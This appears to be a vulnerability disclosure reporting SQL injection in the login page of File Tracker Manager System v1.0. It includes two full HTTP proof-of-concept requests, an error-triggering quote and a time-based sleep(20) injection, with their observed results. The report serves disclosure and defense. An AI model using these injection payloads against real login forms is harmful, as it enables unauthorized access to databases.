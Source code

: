 # File Tracker Manager System v1.0 has SQL injection

BUG_Author: godownio

Vulnerability File: /file_manager/login.php

POST parameter 'username' exists SQL injection vulnerability

Payload1: username=a'&password=b

```
POST /file_manager/login.php HTTP/1.1
Host: 192.168.0.107
Content-Length: 22
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.0.107
Referer: http://192.168.0.107/file_manager/index.php
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Connection: close

username=a'&password=b
```

An error occurred in the sql statement

![image](https://github.com/godownio/bug_report/blob/main/vendors/pictures/sql1.png)

Payload2:username=a' and (select 1 from (select(sleep(20)))a)-- a&password=b

```
POST /file_manager/login.php HTTP/1.1
Host: 192.168.0.107
Content-Length: 67
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.0.107
Referer: http://192.168.0.107/file_manager/index.php
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Connection: close

username=a' and (select 1 from (select(sleep(20)))a)-- a&password=b
```

Server response time is 20 seconds

![image](https://github.com/godownio/bug_report/blob/main/vendors/pictures/sql2.png)
